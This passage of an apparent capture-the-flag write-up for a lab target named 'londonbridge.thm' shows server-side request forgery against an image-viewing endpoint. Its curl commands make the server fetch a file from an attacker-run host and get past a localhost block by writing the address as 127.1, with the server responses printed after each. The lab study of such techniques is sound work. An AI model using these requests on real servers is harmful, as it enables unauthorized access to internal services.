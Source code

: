 `curl -iL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'www=http://10.2.37.37:8000/injectfile' -D wwwssrftestresult.txt $'http://londonbridge.thm:8080/view_image'`

```bash
HTTP/1.1 200 OK
Server: gunicorn
Date: Wed, 02 Oct 2024 06:16:12 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 12

hello_world
```

> **Internal Service Enumeration with URL Format Bypass**
> 

**For more information:**

[URL Format Bypass | HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass)

`curl -iL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'www=http://127.0.0.1' $'http://londonbridge.thm:8080/view_image'`

```bash
HTTP/1.1 403 FORBIDDEN
Server: gunicorn
Date: Wed, 02 Oct 2024 06:18:09 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 239

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don&#x27;t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>

```

`curl -iL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'www=http://127.1/' $'http://londonbridge.thm:8080/view_image'`

```bash
HTTP/1.1 200 OK
Server: gunicorn
Date: Wed, 02 Oct 2024 06:18:40 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 1270

<HTML>
<body bgcolor="gray">
<h1>London brigde</h1>
<img height=400px width=600px src ="static/1.webp"><br>
<font type="monotype corsiva" size=18>London Bridge is falling down<br>
    Falling down, falling down<br>
    London Bridge is falling down<br>
    My fair lady<br>
    Build it up with iron bars<br>
    Iron bars, iron bars<br>
    Build it up with iron bars<br>
    My fair lady<br>
    Iron bars will bend and break<br>
    Bend and break, bend and break<br>
    Iron bars will bend and break<br>
    My fair lady<br>
```